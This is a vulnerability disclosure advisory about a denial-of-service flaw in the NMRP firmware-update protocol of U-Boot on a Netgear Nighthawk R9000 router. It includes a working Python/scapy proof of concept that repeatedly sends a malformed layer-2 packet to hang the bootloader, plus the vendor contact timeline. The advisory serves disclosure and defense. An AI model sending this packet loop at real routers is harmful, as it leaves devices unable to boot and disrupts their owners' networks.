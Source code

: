 # Denial of Service in NMRP Protocol

Published: April 1, 2021

CVSS:3.0/AV:A/AC:H/PR:N/UI:N/S:C/C:N/I:N/A:H [6.1]

# Prior Art

[http://www.chubb.wattle.id.au/PeterChubb/nmrp.html](http://www.chubb.wattle.id.au/PeterChubb/nmrp.html)

[https://github.com/jclehner/nmrpflash](https://github.com/jclehner/nmrpflash)

## Overview

The NMRP protocol is a debug feature used to update firmware images on Netgear Routers over the LAN.  This protocol does not require authentication.  NMRP is a Layer 2 protocol based on Ethernet.  The NMRP daemon starts for three seconds before the U-Boot bootloader begins the boot process of the primary Linux operating system. This is evident by checking the `bootcmd` environment variable within U-Boot:

```
ALPINE_DB> printenv bootcmd
bootcmd=nmrp;run check_dni_image;run bootargsnand;qca8337_init_one; ledtoggle;sleep 1;run bootnand
```

This is the version of U-Boot testing was completed against as output from the U-Boot bootloader:

```
U-Boot 2015.01-gd836bbb (Jul 22 2016 - 13:32:00)
```

The specific device used for testing was a Netgear Nighthawk R9000 (x10) router.

## Vulnerability

Multiple memory corruption issues exist within the NMRP protocol implementation within U-Boot. Any of these vulnerabilities can be exploited to cause the bootloader to hang and no longer accept input from either the network or the primary UART console.  The only option is to cut the power in order to restart the device. This results in preventing the operating system from loading and thus the device being operable.  An attacker with a wired LAN connection can repeatedly emit these malicious packets so that every time the device attempts to boot, the vulnerability is triggered and the device doesn't boot into Linux.  The end result is an attacker on the wired LAN can prevent the router from ever achieving an operational state.

## Proof of Concept

A python-based proof of concept script is provided to demonstrate the vulnerability. You will need the `scapy` package installed in order to run this script.  `scapy` can be installed with pip: `pip3 install scapy`. Additionally, the script will need to be run with root privileges in order to send layer 2 packets.

```python
from scapy.all import *
import time

SRC_MAC_ADDRESS = "dc:a6:32:1b:1d:c6"
DST_MAC_ADDRESS = "cc:40:d0:5d:a2:84"

pkt = Ether(src=SRC_MAC_ADDRESS, dst=DST_MAC_ADDRESS, type=0x912) / b'\x00\x00\x01\x00\x00\x0e\x00\x01\x00\x00NTGR\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

while True:
  sendp(pkt, iface='eth0') # change iface to match ethernet NIC connected to router.
  time.sleep(0.95)
```

This vulnerability works by setting the options length to `0x0000` for the initial advertisement packet that is sent to initiate the firmware upload process. Note that you will need to change the `SRC_MAC_ADDRESS` and `DST_MAC_ADDRESS` variables to match your lab configuration, and you may need to change the value for `iface` in the `sendp` invocation to match your ethernet adapter which is connected to the router. The ethernet connection must be on the first ethernet port on the router.

## Extrapolation

During testing, many different packets were crafted and sent to the device.  Some crafted packets resulted in an error message and subsequent device reload. The aforementioned proof of concept is not the only packet which results in a device hang; there were too many combinations to list individually in this write up.  It is recommended that the vendor review the source code for the NMRP protocol and conduct an internal audit for additional memory corruption issues.

## Time Line

* January 31st, 2021: Notified Vendor of Vulnerability - stated intent to disclose April 1st, 2020.
* February 07, 2021: No response, sent reminder email asking for acknowledgement.
* February 15, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 201: Tweeted @NETGEAR to attempt contact. [https://twitter.com/nstarke/status/1363552292729946113](https://twitter.com/nstarke/status/1363552292729946113)
* March 21, 2021: No response, sent another reminder email asking for acknowledgement.
* March 21, 2021: Tweeted @NETGEAR again to attempt contact. [https://twitter.com/nstarke/status/1373701891801104385](https://twitter.com/nstarke/status/1373701891801104385)
* March 24, 2021: Received tweet from @NETGEAR_UKI directing me to their bug bounty program. [https://twitter.com/NETGEAR_UKI/status/1374834049483599872](https://twitter.com/NETGEAR_UKI/status/1374834049483599872)
* March 24, 2021: Responded saying I cannot disclose through the bug bounty program.  [https://twitter.com/nstarke/status/1374834668177096705](https://twitter.com/nstarke/status/1374834668177096705)
* April 1, 2021: Public Disclosure

## Revision History

4/1/2021 - Initial Release

4/1/2021 - Updating CVSS Score (thanks @ReverseICS).

[Back](/)